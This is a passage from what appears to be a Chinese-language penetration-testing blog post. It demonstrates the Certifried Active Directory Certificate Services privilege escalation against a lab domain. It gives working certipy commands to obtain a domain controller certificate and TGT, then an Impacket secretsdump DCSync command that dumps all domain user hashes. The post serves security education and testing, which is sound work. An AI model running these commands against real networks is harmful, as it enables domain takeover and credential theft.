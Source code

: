 ### 为域控申请证书

到此为止，如果我们以计算机账户 `PENTEST$` 的身份申请 Machine 模板证书，`PENTEST$` 的 `dNSHostName` 属性值将嵌入到证书中作为主题备用名称。由于 `PENTEST$` 的 `dNSHostName` 属性值已被修改为 `DC01.pentest.com`，因此将为我们颁发域控制器的计算机账户的证书，如下图所示。

```bash
certipy req pentest.com/PENTEST\$:Passw0rd@adcs.pentest.com -ca 'pentest-ADCS-CA-2' -template 'Machine'
```

![](/assets/posts/2022-05-12-certifried-active-directory-domain-privilege-escalation/image-20220512000544983.png)

接着，我们通过颁发的证书对 KDC 进行 PKINIT Kerberos 身份验证，并获取域控制器账户的 TGT 票据，如下图所示。

```bash
certipy auth -pfx dc01.pfx -username DC01\$ -domain pentest.com -dc-ip 172.26.10.11
```

![](/assets/posts/2022-05-12-certifried-active-directory-domain-privilege-escalation/image-20220512000823445.png)

由于域控制器账户拥有所需特权，我们可以设置环境变量 `KRB5CCNAME`，通过 [Impacket](https://github.com/SecureAuthCorp/impacket) 套件中的 secretsdump.py 使用该票据，并执行 DCSync 来转储域用户哈希，如下图所示。

```bash
export KRB5CCNAME=/root/dc01.ccache
python3 secretsdump.py -k pentest.com/dc01\$@dc01.pentest.com -no-pass -just-dc
```
